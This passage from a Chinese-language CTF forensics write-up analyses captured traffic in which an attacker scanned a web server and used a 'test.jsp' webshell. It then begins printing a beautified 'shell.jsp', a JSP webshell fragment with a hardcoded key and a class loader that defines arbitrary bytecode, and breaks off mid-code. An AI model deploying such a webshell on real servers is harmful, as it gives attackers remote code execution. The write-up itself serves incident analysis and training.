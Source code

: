 那么答案就是**80,888,8888**

### hard web\_2

> 问题内容：服务器中根目录下的 flag 值是多少？

因为看到了 80 端口开放，我们看看 web 服务发生了什么[![](assets/1702520939-7bc6866d57b2774d7fa61b5211920852.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213155406-ca3e6a12-998c-1.png)  
可以看到黑客对 web 服务进行路径扫描，服务器返回了大量的 404 状态，因此我们通过过滤器语法`http.request or http.response.code == 200`查看黑客对服务器的请求以及（如果存在）web 页面的响应  
[![](assets/1702520939-4e87a89dc24767eb8f5998d7292d5d35.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213155438-ddbe33e2-998c-1.png)  
可以看到服务器存在一个`test.jsp`的 webshell，黑客执行了一些命令，在最后查看了`shell.jsp`的内容  
[![](assets/1702520939-cbc83b1ae163efd874f74635d08d1f21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213155520-f63d9296-998c-1.png)

我们查看一下 shell.jsp 的内容，稍微代码美化一下可以得到如下

```plain
<%! String xc = "748007e861908c03";

    class X extends ClassLoader {
        public X(ClassLoader z) {
            super(z);
        }

        public Class Q(byte[] cb) {
            return super.defineClass(cb, 0, cb.length);
        }
    }

    public byte[] x(byte[] s, boolean m) {
```